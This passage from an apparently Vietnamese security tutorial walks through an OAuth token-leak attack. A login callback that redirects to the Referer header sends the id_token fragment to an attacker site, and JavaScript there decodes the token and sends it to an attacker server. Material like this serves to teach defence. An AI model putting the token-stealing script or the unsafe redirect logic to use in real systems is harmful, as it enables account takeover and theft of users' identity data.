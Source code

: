 #### Step 4: Xác thực Google Thành công
Google xử lý request và redirect về ứng dụng bị tấn công:
```
https://legitimate-app.com/oauth/callback#
    id_token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.very_long_jwt_token_here&
    state=random_state_123&
    token_type=Bearer&
    expires_in=3600
```

#### Step 5: App Bị Tấn công Bối rối
Ứng dụng bị tấn công (`legitimate-app.com`) nhận request:
- **URL**: `https://legitimate-app.com/oauth/callback`
- **Fragment**: Chứa `id_token` (server không nhìn thấy)
- **Referer**: `https://attacker-malicious-site.com/free-upgrade`

**Logic xử lý của ứng dụng bị lỗi**:
```javascript
// App chỉ mong đợi code parameter trong query string
if (request.query.code) {
    // Happy path - xử lý bình thường
    handleSuccessfulLogin(request.query.code);
} else {
    // Non-happy path - app bối rối
    // Không có code, không có error message rõ ràng
    // App quyết định redirect user về trang trước
    const referer = request.headers.referer;
    return redirect(referer); // ← QUYẾT ĐỊNH NGUY HIỂM!
}
```

#### Step 6: Chuyển hướng Không an toàn
Ứng dụng bị tấn công chuyển hướng nạn nhân về trang của kẻ tấn công:
```
https://attacker-malicious-site.com/free-upgrade#
    id_token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.very_long_jwt_token_here&
    state=random_state_123&
    token_type=Bearer&
    expires_in=3600
```
**QUAN TRỌNG**: Fragment URL vẫn được giữ nguyên qua redirect!

#### Step 7: Attacker Đánh chặn ID Token
Trang của kẻ tấn công đọc fragment và lấy ID Token:
```javascript
// JavaScript trên attacker site
const fragment = window.location.hash.substring(1);
const params = new URLSearchParams(fragment);
const idToken = params.get('id_token');

if (idToken) {
    // Giải mã JWT để lấy thông tin người dùng
    const payload = JSON.parse(atob(idToken.split('.')[1]));
    const userEmail = payload.email;
    const userName = payload.name;
    
    // Gửi thông tin về server attacker
    sendToAttackerServer(idToken, userEmail, userName);
}
```
